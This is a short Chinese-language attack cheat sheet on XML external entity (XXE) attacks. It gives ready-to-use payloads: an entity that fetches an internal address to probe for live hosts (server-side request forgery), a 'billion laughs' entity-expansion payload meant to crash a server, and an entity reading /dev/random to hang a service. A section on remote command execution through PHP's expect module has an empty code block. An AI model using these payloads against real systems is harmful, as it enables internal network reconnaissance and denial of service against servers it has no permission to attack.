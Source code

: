 
## XXE - SSRF

一般是用来探测内网存活主机，也就是内网探测

把下面的地址换成自己想要探测的地址，以探测内网主机（但是对方主机没开启`80`端口也无效了）

```c
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE XXE-test [
    <!ENTITY admin SYSTEM "http://192.168.111.159/1.txt">
]>
<user>
	<username>&admin;</username>
	<password>admin</password>
</user>
```

## XXE Dos 攻击

```c
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

此测试可以在内存中将小型 `XML`文档扩展到超过 `3GB` 而使服务器崩溃，如果对方服务器还是`unix`类，那么可以

```c
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ 
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///dev/random" >]>
<foo>&xxe;</foo>
```

由于 `/dev/random` 是一个设备文件，它可能消耗大量系统资源，导致程序或服务挂起，因为读取大量的随机数据可能需要很长时间，尤其是在没有足够系统熵时

## XXE RCE

这种情况很少发生，这主要是服务配置不当所造成的。如果足够幸运，并且`PHP expect` 模块被加载到易受攻击的系统或者处理`XML`的内部应用程序中，那么我们将可以执行命令

```c
// 没写
```

